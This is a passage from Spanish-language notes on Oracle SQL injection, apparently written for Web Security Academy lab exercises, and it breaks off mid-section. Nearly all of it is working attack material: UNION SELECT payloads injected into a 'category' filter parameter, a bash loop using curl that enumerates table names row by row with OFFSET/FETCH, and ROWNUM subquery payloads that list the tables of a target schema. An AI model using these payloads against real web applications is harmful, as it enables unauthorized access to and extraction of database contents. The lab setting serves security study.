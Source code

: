 ```bash
curl -s -G --data-urlencode "category=<PAYLOAD>" "https://DOMINIO/filter" | grep "<td>" | html2text
```

### 4. Bucle para enumerar (ejemplo con OFFSET/FETCH)

Si la instancia soporta `OFFSET/FETCH` podemos iterar con incrementos:

```bash
for i in $(seq 0 99); do
  q="Products' UNION SELECT 1, table_name FROM all_tables OFFSET $i ROWS FETCH NEXT 1 ROWS ONLY -- "
  res=$(curl -s --get --data-urlencode "category=$q" "https://web-security-academy.net/filter" | grep '<td>' | html2text)
  echo "[+] Para el nº $i: $res"
done
```

Si no hay `OFFSET/FETCH`, usaremos una subconsulta con `ROWNUM`/`ROW_NUMBER()` y construiremos payloads que filtren por rango de fila.



---

## Listar tablas de un schema (owner)

### 0) Listar tablas básico

```sql
' UNION SELECT 1, table_name FROM all_tables-- 
```

### 1) Payload básico (si la columna izquierda es numérica)

```sql
' UNION SELECT 1, table_name FROM all_tables WHERE owner = 'APP_SCHEMA'--
```

### 2) Payload seguro si no sabemos el tipo de la primera columna (usar `NULL` para rellenar)

```sql
' UNION SELECT NULL, table_name FROM all_tables WHERE owner = 'APP_SCHEMA' --
```

### 3) Iterar (ej.: segunda fila) — con `ROWNUM` en subconsulta

```sql
' UNION SELECT NULL, (SELECT table_name FROM (SELECT table_name FROM all_tables WHERE owner = 'APP_SCHEMA') WHERE ROWNUM = 2) FROM DUAL--
```

### 4) Concatenar todas las tablas del esquema (equivalente a `GROUP_CONCAT`)
